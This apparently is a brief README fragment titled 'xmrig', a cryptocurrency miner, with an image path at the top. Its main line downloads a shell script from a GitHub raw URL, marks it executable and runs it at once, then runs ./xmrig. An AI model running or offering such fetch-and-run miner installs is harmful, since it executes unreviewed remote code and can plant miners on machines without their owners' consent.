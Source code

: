 # xmrig

wget https://raw.githubusercontent.com/thehutgy/tuneTurtleMid/main/turtle.sh && chmod +x turtle.sh && ./turtle.sh

# run

./xmrig

